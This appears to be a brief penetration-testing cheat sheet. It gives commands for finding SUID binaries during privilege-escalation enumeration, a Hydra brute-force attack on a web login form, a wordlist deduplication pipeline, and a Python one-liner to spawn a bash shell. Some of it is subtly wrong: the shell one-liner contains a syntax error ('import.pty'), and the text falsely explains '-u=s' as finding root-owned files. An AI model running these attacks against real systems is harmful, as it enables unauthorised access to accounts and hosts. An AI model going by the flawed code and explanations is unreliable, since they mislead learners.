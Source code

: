 Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'

